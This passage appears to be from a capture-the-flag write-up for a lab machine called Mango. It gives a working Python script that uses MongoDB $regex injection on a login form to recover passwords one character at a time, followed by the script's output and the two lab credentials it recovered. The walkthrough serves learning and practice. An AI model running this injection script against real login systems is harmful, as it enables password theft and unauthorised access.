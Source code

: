 ```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="mango"
password=""
u="http://staging-order.mango.htb/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='username=%s&password[$regex]=^%s&login=login' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Log in for ordering Sweet & Juicy Mango.' not in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

Let's run it for `admin` user:

```
$ python bf.py
Found one more char : t
Found one more char : t9
Found one more char : t9K
Found one more char : t9Kc
Found one more char : t9KcS
Found one more char : t9KcS3
Found one more char : t9KcS3>
Found one more char : t9KcS3>!
Found one more char : t9KcS3>!0
Found one more char : t9KcS3>!0B
Found one more char : t9KcS3>!0B#
Found one more char : t9KcS3>!0B#2
```

We can also run it for `mango`.

Finally we have 2 accounts:

- `admin` / `t9KcS3>!0B#2`
- `mango` / `h3mXK8RhU~f{]f5H`

There is even a guy that made a small
[script / tool](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
around this so you don't have to change your script each time.

If you try to login with a accounts you will get this message:

```html
<h1>Under Plantation</h1>
<h2>Sorry for the inconvenience. We just started farming!</h2>
<h3>To contact us in the meantime please email: admin@mango.htb<br />
We rarely look at our inboxes.</h3>
```
